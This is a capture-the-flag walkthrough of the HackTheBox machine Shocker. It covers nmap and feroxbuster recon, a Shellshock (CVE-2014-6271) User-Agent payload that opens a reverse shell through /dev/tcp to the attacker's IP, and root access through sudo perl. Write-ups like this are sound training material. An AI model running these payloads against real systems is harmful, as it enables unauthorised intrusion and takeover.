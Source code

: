## ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
- **Exploits**: CVE-2014-6271 (Shellshock)
- **Ports**: 80 (HTTP), 2222 [SSH](SSH)

---

### 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/alltcp 10.10.10.56
nmap -p 80,2222 -sCV -oA scans/scripts 10.10.10.56
```
- Port 80: Apache/2.4.18 (Ubuntu)
- Port 2222: OpenSSH 7.2p2 (Ubuntu 16.04)

---

### 🌐 [Web Enumeration](HTTP.md)
```bash
feroxbuster -u http://10.10.10.56 -x php,html -f -n
```
Discovered:
- `/cgi-bin/` directory (403 Forbidden)
- `/cgi-bin/user.sh` script (200 OK)

---

### 🐚 ShellShock (CVE-2014-6271) Exploit
Using Burp or curl to test ShellShock via `User-Agent`:
```http
User-Agent: () { :;}; echo; /bin/ping -c 1 <YOUR_IP>
```
For reverse shell:
```bash
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<YOUR_IP>/443 0>&1
```
Start a listener:
```bash
nc -lvnp 443
```
Successful shell as:
```bash
shelly@Shocker:/usr/lib/cgi-bin$
```
Stabilize:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
```

---

### 🧼 Privilege Escalation
Check `sudo` permissions:
```bash
sudo -l
```
Output:
```bash
(root) NOPASSWD: /usr/bin/perl
```
Exploit:
```bash
sudo perl -e 'exec "/bin/bash"'
```
You now have a root shell:
```bash
root@Shocker:~# cat /root/root.txt
```

---

### 🛠 Beyond Root: Apache Config Quirk
Apache config snippet at `/etc/apache2/conf-enabled/serve-cgi-bin.conf`:
```apache
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
```
The trailing slash is required. Without it, `/cgi-bin` returns 404.

To test:
```bash
curl http://10.10.10.56/cgi-bin/        # 200 OK
curl http://10.10.10.56/cgi-bin         # 404 Not Found
```

---

### 📚 Notes on ShellShock Behavior
- Only bash builtins (e.g. `echo`, `printf`) continue execution after initial eval.
- Binaries (e.g. `python3`, `perl`, etc.) often cause execution to halt.
- Chaining works best with pipes (`|`) rather than `;` or `&&`.


Let me know if you want walkthroughs for other boxes like Sunday, Sense, or Valentine 🧠💥

